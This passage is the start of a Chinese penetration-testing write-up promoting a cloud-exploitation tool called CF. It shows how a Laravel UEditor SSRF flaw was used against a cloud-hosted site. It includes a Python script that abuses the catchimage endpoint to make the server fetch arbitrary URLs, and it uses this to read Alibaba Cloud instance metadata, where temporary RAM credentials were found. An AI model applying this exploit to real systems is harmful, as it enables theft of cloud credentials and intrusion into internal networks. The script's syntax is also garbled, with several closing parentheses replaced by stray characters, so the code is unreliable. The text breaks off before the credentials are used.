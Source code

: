```yaml
---
title: 我用 CF 打穿了他的云上内网
---
```

<center><h1>我用 CF 打穿了他的云上内网</h1></center>

---

## 0x00 前言

最近在做项目的时候，测到了一个部署在云上的存在 Laravel UEditor SSRF 漏洞的站点，并且发现这个 SSRF 漏洞可以读取到临时凭证，这不巧了，正好最近写了一个云环境利用的工具。

开始之前这里先简单介绍一下这个工具，CF 是这个工具的名字，通过它可以很方便的进行云上内网渗透，比如一键在所有实例上执行命令、一键接管控制台、一键列出云服务资源等等。

项目地址：[https://github.com/teamssix/cf](https://github.com/teamssix/cf)

使用手册：[https://wiki.teamssix.com/cf](https://wiki.teamssix.com/cf)

十分建议在使用 CF 的时候，边使用边参考 CF 的使用手册，发现 CF 更多功能，那话不多说，下面咱们就开始吧。

## 0x01 打点，但，是云环境

一开始还是信息收集，首先通过指纹扫描发现在目标范围内的一个站点使用了 Laravel 框架，接着测试发现该站点存在 Laravel UEditor SSRF 漏洞。

这里的 SSRF 漏洞触发点在 UEditor 编辑器的上传图片功能中，下面我们尝试让服务器从 https://baidu.com?.jpg 获取图片。

<img width="1000" src="/img/1657632559.png">

然后我们读取返回的文件地址，通过返回的内容可以看到服务端确实访问到了 https://baidu.com?.jpg，说明这里确实存在 SSRF 漏洞。

<img width="1000" src="/img/1657632736.png">
通过查询该域名所属 IP，发现该站点位于云上，那么我们就可以利用这个 SSRF 漏洞去获取实例的元数据信息，但是这样每次获取数据都要手动发两个数据包就很麻烦，所以这里简单搞个脚本。

```python
import sys
import requests

ssrf_url = sys.argv[1]
headers = {"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64"> AppleWebKit/537.36 (KHTML, like Gecko"> Chrome/100.0.3100.0 Safari/537.36"}

req1 = requests.get("https://your_target.com/laravel-u-editor-server/server?action=catchimage&source[]=" + ssrf_url,headers=headers">
req2 = requests.get(req1.json(">["list"][0]["url"],headers=headers">

print(req2.text">
```

通过查询该站点的 IP 得知该站点位于阿里云上，阿里云的元数据地址为 http://100.100.100.200/latest/meta-data ，我们尝试获取一下。

<img width="800" src="/img/1657634631.png">

可以看到成功获取到了元数据信息，并且值得注意的是，在元数据信息里还有 `ram/`目录，这就意味着这台实例存在临时访问凭证，也就是说存在被进一步利用的可能性。
